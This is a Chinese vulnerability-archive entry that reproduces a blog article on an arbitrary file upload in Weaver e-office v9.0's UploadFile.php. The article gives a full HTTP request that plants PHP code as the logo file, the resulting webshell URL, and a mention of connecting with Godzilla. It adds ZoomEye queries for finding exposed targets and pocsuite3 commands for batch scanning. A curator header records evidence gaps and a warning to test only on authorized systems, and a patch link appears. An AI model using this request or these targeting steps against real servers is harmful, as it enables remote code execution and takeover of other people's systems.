










# 泛微e-office UploadFile.php logo任意文件上传

## 条目说明

- 对象与具体问题：泛微e-office；UploadFile.php logo任意文件上传
- 版本、配置及部署条件：v9.0；固定logo写入路径
- 认证与权限前提：样本含PHPSESSID，鉴权必要性未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。
- 编号待核：CVE-2021-49104；CNVD-2021-49104。未核实的编号不作为本条确认主编号。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- fofa=工程师也由尾部推广误抽
- multipart name/filename丢失；检测脚本只给pocsuite调用路径未附源码
- 与UploadFile专项合并，保留v9测试与修复链接，删无关标识/营销段

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Ge-tYcJKvD4yNosOC4W-YA)

_**0x01 漏洞简介：**_  



    泛微 e-office 系统是标准、易用、快速部署上线的专业协同 OA 软件, 国内协同 OA 办公领域领导品牌, 致力于为企业用户提供专业 OA 办公系统、移动 OA 应用等协同 OA 整体解决方案。

    该漏洞是由于 e-office 未能正确处理上传模块中用户的输入数据导致的，攻击者可以通过该漏洞构造恶意的上传数据包，最终实现任意代码执行获取服务器控制权

_**0x02 影响版本：**_

```
泛微 e-office v9.0
```

_**0x03 漏洞等级:**_

```
高危
```

_**0x04 漏洞影响:**_

攻击者可以通过该漏洞构造恶意的上传数据包，最终实现任意代码执行获取服务器控制权。

_**0x05 影响范围：**_

根据 **ZoomEye** 网络空间搜索引擎对潜在可能目标进行搜索，得到约 4366 条 IP 历史记录，主要大部分用户都分布在中国。

_**ZoomEye 语法：**_

```
app:"泛微协同办公标准产品EOffice"
```



_**ZoomEye 搜索链接：**_  

```
https://www.zoomeye.org/searchResult?q=app%3A%22%E6%B3%9B%E5%BE%AE%E5%8D%8F%E5%90%8C%E5%8A%9E%E5%85%AC%E6%A0%87%E5%87%86%E4%BA%A7%E5%93%81EOffice%22
```



_**全球分布：**_



_**0x06 漏洞复现：**_

_**本地搭建环境，傻瓜式操作安装（这里就不多说了）**_

_**需要环境的可以后台**_

_**回复关键字 "**__**E-Office**__**" 获取  
**_



_**PoC：**_

```http
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 127.0.0.1:7899
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; 
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```

> 请求长度说明：原资料 Content-Length 为 193；保留原始标头；其数值未据实际请求体重新计算或验证。



**上传后访问 shell 路径：**  

```
http://ip:port/images/logo/logo-eoffice.php
```



**哥斯拉连接**



**利用大佬们写好的脚本一键利用**  

```
python cli.py -r pocs\2021\e-cology\20211202_WEB_E-Office_FileUpload.py -u http://ip:port --verify
```

_**单个检测：**_  



_**批量检测：**_

```
python cli.py -r pocs\2021\e-cology\20211202_WEB_E-Office_FileUpload.py -f 1.txt --verify
```



_**↓↓↓**_


说到这里就简要介绍一下个人感觉非常好用的一款神器 _**pocsuite3**_  

    PocSuite3 是 Knownsec 404 安全研究团队设计的一款远程漏洞测试以及 PoC 开发框架，该框架使用了功能极其强大的概念验证引擎，并自带了大量渗透测试以及安全分析功能。  

----------------------------------------------------------------------------------------------------

功能介绍
----

```
1、PoC脚本能够以attack、verify和shell等多种模式运行；
2、自带插件生态系统；
3、 可从本地文件、Redis和数据库等不同来源动态加载PoC脚本；
4、 可从CIDR、本地文件、Redis、数据库、Zoomeye和Shodan等来源加载多个测试目标；
5、 轻松导出测试结果；
6、 支持命令行工具和Python包导入；
7、 支持IPv6；
8、 支持全局HTTP/HTTPS/SOCKS代理；
9、 提供了强大的爬虫API；
10、整合Seebug；
11、整合ZoomEye；
12、整合Shodan；
13、整合Ceye；
14、等等…
```

_关于 pocsuite3 的详细使用可以借鉴这个文档，这里不一一介绍！因为文档比较详细_

```
https://github.com/knownsec/pocsuite3/tree/master/docs
```

_**0x07 建议解决方案:**_

厂商已提供漏洞修补方案，建议用户下载使用：

```
https://v10.e-office.cn/eoffice9update/safepack.zip
```

_**0x08 参考链接:**_

```
https://mp.weixin.qq.com/s/rfxeO__eEVTfXcsoamHMUQ
https://mp.weixin.qq.com/s/P75K_0869h-nWHRMu06zgQ
```

```
【往期推荐】


【内网渗透】内网信息收集命令汇总


【内网渗透】域内信息收集命令汇总

【超详细 | Python】CS免杀-Shellcode Loader原理(python)

【超详细 | Python】CS免杀-分离+混淆免杀思路


【超详细 | 钟馗之眼】ZoomEye-python命令行的使用


【超详细 | 附EXP】Weblogic CVE-2021-2394 RCE漏洞复现

【超详细】CVE-2020-14882 | Weblogic未授权命令执行漏洞复现

【超详细 | 附PoC】CVE-2021-2109 | Weblogic Server远程代码执行漏洞复现

【漏洞分析 | 附EXP】CVE-2021-21985 VMware vCenter Server 远程代码执行漏洞

【CNVD-2021-30167 | 附PoC】用友NC BeanShell远程代码执行漏洞复现


【奇淫巧技】如何成为一个合格的“FOFA”工程师

【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】

【超详细】Fastjson1.2.24反序列化漏洞复现

  记一次HW实战笔记 | 艰难的提权爬坑

免杀基础教学（上卷）


免杀基础教学（下卷）


走过路过的大佬们留个关注再走呗

往期文章有彩蛋哦


一如既往的学习，一如既往的整理，一如即往的分享


“如侵权请私聊公众号删文”
```

公众号

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
